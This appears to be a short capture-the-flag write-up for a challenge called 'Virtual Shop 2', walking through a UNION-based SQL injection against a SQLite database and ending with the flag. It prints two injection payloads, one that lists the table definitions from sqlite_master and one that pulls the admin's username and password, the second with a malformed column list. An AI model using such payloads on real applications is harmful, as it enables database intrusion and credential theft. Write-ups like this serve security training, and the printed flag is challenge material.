 # Virtual Shop 2
## Writeup
So, this time we need to identify the table containing the users and their creds.

> Note that we are using sqlite3 in this chall.

To do so, send this payload:
```'+UNION+SELECT+sql,NULL,NULL,NULL+FROM +sqlite_master--```  
This way:  
![First payload](./image1.png)  
We can see this in the response, which represents the sql queries that have been used to build the tables:  
![First result](./image2.png)  
> Note: This way of getting results is not available in all SQL SGBDs.   
We see that there are two tables, and one of them is obviously the users one: `UsEErrSS1337987`  
And it has to columns:   
`usnme324, pw789`   
And then we can send an sql query to have the admin's credantials with:  
```'+UNION+SELECT+usnme324,,NULL,pw789,NULL+FROM+UsEErrSS1337987--```  
![Second payload](./image3.png)
And we get this result:
![Second result](./image4.png)


## Flag
```shellmates{iT_W4$_Not_TH4T_S3cuRE_4T_THe_END}```
